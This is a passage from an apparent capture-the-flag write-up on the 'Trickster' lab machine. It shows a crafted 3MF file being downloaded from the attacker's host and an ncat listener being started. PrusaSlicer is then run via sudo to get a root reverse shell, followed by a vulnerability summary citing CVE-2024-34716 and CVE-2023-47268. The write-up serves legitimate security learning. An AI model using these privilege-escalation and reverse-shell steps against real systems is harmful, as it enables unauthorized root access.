--2025-01-20 20:05:25--  http://10.10.14.235:8181/pwn.3mf
Connecting to 10.10.14.235:8181... connected.
HTTP request sent, awaiting response... 200 OK
Length: 141805 (138K) [application/octet-stream]
Saving to: ‘pwn.3mf’

pwn.3mf                     100%[===========================================>] 138.48K  --.-KB/s    in 0.1s

2025-01-20 20:05:25 (941 KB/s) - ‘pwn.3mf’ saved [141805/141805]
```

Start our ncat listener on our attacker machine:
```shell
❯ sudo ncat -l 10.10.14.235 -nvp 4444
Password:
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.235:4444
```

Finally, we can run `prusaslicer` as sudo to initiate our reverse shell connection back to our attacker machine:
```shell
adam@trickster:~$ sudo /opt/PrusaSlicer/prusaslicer -s pwn.3mf
10 => Processing triangulated mesh
10 => Processing triangulated mesh
20 => Generating perimeters
20 => Generating perimeters
30 => Preparing infill
45 => Making infill
30 => Preparing infill
10 => Processing triangulated mesh
20 => Generating perimeters
45 => Making infill
10 => Processing triangulated mesh
30 => Preparing infill
20 => Generating perimeters
45 => Making infill
30 => Preparing infill
45 => Making infill
10 => Processing triangulated mesh
20 => Generating perimeters
30 => Preparing infill
45 => Making infill
65 => Searching support spots
65 => Searching support spots
65 => Searching support spots
65 => Searching support spots
65 => Searching support spots
69 => Alert if supports needed
print warning: Detected print stability issues:

Loose extrusions
Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere

Collapsing overhang
Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere

Low bed adhesion
TRICKSTER.HTB, Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere

Consider enabling supports.
Also consider enabling brim.
88 => Estimating curled extrusions
88 => Estimating curled extrusions
88 => Estimating curled extrusions
88 => Estimating curled extrusions
88 => Estimating curled extrusions
88 => Generating skirt and brim
90 => Exporting G-code to TRICKSTER_0.2mm.gcode
```

We catch the root reverse shell and get the flag:
```shell
❯ sudo ncat -l 10.10.14.235 -nvp 4444
Password:
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.235:4444
Ncat: Connection from 10.129.11.198:44818.
TRICKSTER_0.2mm.gcode
root@trickster:/home/adam# whoami
whoami
root
root@trickster:/home/adam# cat /root/root.txt
cat /root/root.txt
1f4eb13095e3738796b4--snip--
```

## Vulnerabilities Identified

1. **PrestaShop Remote Code Execution**
   - Unauthenticated RCE through malicious theme upload
   - Led to initial foothold

2. **Exposed Git Repository**
   - Revealed sensitive application paths
   - CWE-538: Insertion of Sensitive Information into Externally-Accessible File or Directory

3. **Insecure Credential Storage**
   - Plaintext database credentials in configuration files
   - Led to lateral movement

4. **Jinja Template Injection**
   - Allowed container escape through changedetection.io
   - CWE-74: Improper Neutralization of Special Elements in Output

5. **Privilege Escalation via PrusaSlicer**
   - Improper access controls on post-processing commands
   - Allowed elevation to root

## Tools Used

- Rustscan
- Feroxbuster
- git-dumper
- Hashcat
- Ncat
- Custom exploitation scripts

## References
- [CVE-2024-34716: PrestaShop Remote Code Execution](https://nvd.nist.gov/vuln/detail/CVE-2024-34716)
- [CVE-2023-47268: PrusaSlicer Privilege Escalation](https://nvd.nist.gov/vuln/detail/CVE-2023-47268)
- [CWE-538: File and Directory Information Exposure](https://cwe.mitre.org/data/definitions/538.html)
- [CWE-74: Injection of Special Elements](https://cwe.mitre.org/data/definitions/74.html)
- [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)